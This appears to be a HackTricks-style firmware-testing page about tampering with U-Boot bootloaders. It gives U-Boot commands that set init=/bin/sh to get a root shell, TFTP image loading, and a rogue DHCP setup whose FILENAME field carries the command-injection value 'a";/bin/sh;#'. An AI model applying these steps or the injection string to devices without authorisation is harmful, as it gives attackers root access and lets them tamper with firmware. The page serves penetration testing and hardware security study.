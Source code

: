 {{#include ../../banners/hacktricks-training.md}}

The following steps are recommended for modifying device startup configurations and bootloaders like U-boot:

1. **Access Bootloader's Interpreter Shell**:

   - During boot, press "0", space, or other identified "magic codes" to access the bootloader's interpreter shell.

2. **Modify Boot Arguments**:

   - Execute the following commands to append '`init=/bin/sh`' to the boot arguments, allowing execution of a shell command:
     %%%
     #printenv
     #setenv bootargs=console=ttyS0,115200 mem=63M root=/dev/mtdblock3 mtdparts=sflash:<partitiionInfo> rootfstype=<fstype> hasEeprom=0 5srst=0 init=/bin/sh
     #saveenv
     #boot
     %%%

3. **Setup TFTP Server**:

   - Configure a TFTP server to load images over a local network:
     %%%
     #setenv ipaddr 192.168.2.2 #local IP of the device
     #setenv serverip 192.168.2.1 #TFTP server IP
     #saveenv
     #reset
     #ping 192.168.2.1 #check network access
     #tftp ${loadaddr} uImage-3.6.35 #loadaddr takes the address to load the file into and the filename of the image on the TFTP server
     %%%

4. **Utilize `ubootwrite.py`**:

   - Use `ubootwrite.py` to write the U-boot image and push a modified firmware to gain root access.

5. **Check Debug Features**:

   - Verify if debug features like verbose logging, loading arbitrary kernels, or booting from untrusted sources are enabled.

6. **Cautionary Hardware Interference**:

   - Be cautious when connecting one pin to ground and interacting with SPI or NAND flash chips during the device boot-up sequence, particularly before the kernel decompresses. Consult the NAND flash chip's datasheet before shorting pins.

7. **Configure Rogue DHCP Server**:
   - Set up a rogue DHCP server with malicious parameters for a device to ingest during a PXE boot. Utilize tools like Metasploit's (MSF) DHCP auxiliary server. Modify the 'FILENAME' parameter with command injection commands such as `'a";/bin/sh;#'` to test input validation for device startup procedures.

**Note**: The steps involving physical interaction with device pins (\*marked with asterisks) should be approached with extreme caution to avoid damaging the device.

## References

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)

{{#include ../../banners/hacktricks-training.md}}
